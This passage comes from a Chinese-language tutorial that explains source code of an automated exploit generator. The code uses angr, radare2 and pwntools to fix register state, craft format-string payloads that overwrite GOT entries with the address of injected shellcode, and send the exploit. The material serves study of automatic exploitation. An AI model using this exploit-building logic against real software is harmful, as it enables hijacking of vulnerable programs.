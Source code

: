 用 `getShellcode()` 函数根据程序架构获取 `shellcode`，初始化项目，并使用 `printFormatSploit` 函数 hook printf，接下来调整寄存器的值。

```python
 if inputType == "STDIN":
        '''
        angr doesn't use the right base and stack pointers
        when loading the binary, so our addresses are all wrong.
        So we need to grab them manually
        '''
        entryAddr = p.loader.main_object.entry # 获取入口地址
        reg_values = getRegValues(binary_name,entryAddr) # 将入口地址作为 r2 的运行断点
        state = p.factory.full_init_state(args=argv)
        register_names = state.arch.register_names.values() # 获取寄存器的名称
        for register in register_names:
            if register in reg_values: 
                state.registers.store(register,reg_values[register]) # 重新设置寄存器的值
```

`getRegValues` 使用 r2 获取运行时寄存器的值，通过 angr 的 state.registers.store 重新设置寄存器的值。

```python
def getRegValues(filename,endAddr):
    r2 = r2pipe.open(filename)
    r2.cmd('doo') # Reopen in debugger mode with args 
    r2.cmd('dcu {}'.format(endAddr)) # Continue until address
    regs = json.loads(r2.cmd('drj')) #  Show 'gpr' registers
    r2.quit()
    return regs
```

接下来探索程序状态，与漏洞检测部分类似，我们重点看一下 `printFormatSploit` 的实现。它与 `formatDetector`  中的 `printFormat` 函数类似，区别在于获得可控缓冲区后的处理逻辑。

`printFormat`  获取缓冲区后便尝试构造 `payload` ，设定漏洞利用约束，尝试将 `shellcode` 存放在缓冲区中。

实际构造的字符串格式为 `(Format GOT Write) + (Shellcode)`，因为需要计算  `(Format GOT Write)` 的长度，此处需要模拟构造一次 `payload` 获得长度，以此计算 `shellcode` 的地址。

```python
 # 获得可控的缓冲区，前面的逻辑与 printFormat 相同
 if greatest_count > 0:
     shellcode = properties['shellcode']
     stack_pos = properties['stack_position']
     for got_name,got_addr in properties['protections']['got'].items():
         backup_state = state_copy.copy()
         print("[+] Overwiting {} at {}".format(got_name,hex(got_addr)))
         solv = state_copy.solver.eval
		# 模拟写入获得估计长度
         buffer_address = var_loc + position # 获得可控 buffer的起始的地址
         writes = {got_addr:buffer_address} 
         format_write = fmtstr_payload(stack_pos, writes, numbwritten=position, write_size='short') # 构造 payload, 将 got 地址改为 buffer 地址
         write_len = len(format_write)
         #Real write
         buffer_address = var_loc + position + write_len # 获得用于写入shellcode的buffer地址
         writes = {got_addr:buffer_address}
         format_write = fmtstr_payload(stack_pos, writes, numbwritten=position, write_size='short')
         #Final payload
         format_payload = format_write + shellcode # 最终输入的字符串
         var_value_length = len(format_payload)                   			 self.constrainBytes(state_copy,var_value,var_loc,position,var_value_length,strVal=format_payload)  # 设定约束
         vuln_string = solv(var_value, cast_to=str)
         binary_name = state_copy.project.filename
         results = {}
         results['flag_found'] = False
         print('[~] Testing payload')
         #约束求解获得 stdin 值，发送 payload 并处理返回信息
         results = sendExploit(binary_name,properties,state_copy.posix.dumps(0))
```